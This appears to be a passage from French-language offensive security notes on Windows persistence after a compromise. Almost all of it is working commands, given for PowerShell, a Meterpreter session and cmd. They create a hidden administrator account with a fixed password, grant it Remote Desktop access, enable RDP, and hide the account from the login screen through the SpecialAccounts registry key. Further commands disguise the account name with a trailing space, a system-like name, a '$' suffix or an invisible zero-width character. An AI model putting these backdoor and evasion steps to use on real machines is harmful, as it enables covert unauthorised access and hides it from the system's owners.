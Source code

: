 ### PowerShell équivalent
```powershell
# Créer utilisateur avec PowerShell
New-LocalUser -Name "alice" -Password (ConvertTo-SecureString "hack_123321" -AsPlainText -Force) -PasswordNeverExpires

# Ajouter aux groupes
Add-LocalGroupMember -Group "Administrators" -Member "alice"
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "alice"

# Masquer utilisateur
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "alice" -Value 0 -PropertyType DWord

# Activer RDP
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
```

### Via Meterpreter (commandes individuelles)
```bash
# Dans session Meterpreter
execute -f net -a "user alice hack_123321 /add"
execute -f net -a "localgroup Administrators alice /add"
execute -f net -a "localgroup \"Remote Desktop Users\" alice /add"

# Masquer utilisateur via registry
reg setval -k "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\SpecialAccounts\\UserList" -v alice -t REG_DWORD -d 0

# Activer RDP
reg setval -k "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections -t REG_DWORD -d 0
```

---

## 🔍 6. Masquage avancé de l'utilisateur

### Registry - SpecialAccounts
```cmd
# Masquer complètement de l'écran login
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v alice /t REG_DWORD /d 0

# Vérifier le masquage
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"
```

### Techniques avancées de masquage
```cmd
# 1. Nom d'utilisateur discret (avec espaces)
net user "System " hack_123321 /add        # Espace à la fin
net user "svchost" hack_123321 /add         # Nom système légitime

# 2. Utilisateur avec $ (compte machine)
net user "backup$" hack_123321 /add

# 3. Caractères Unicode invisibles
net user "admin​" hack_123321 /add          # Zero-width space
```
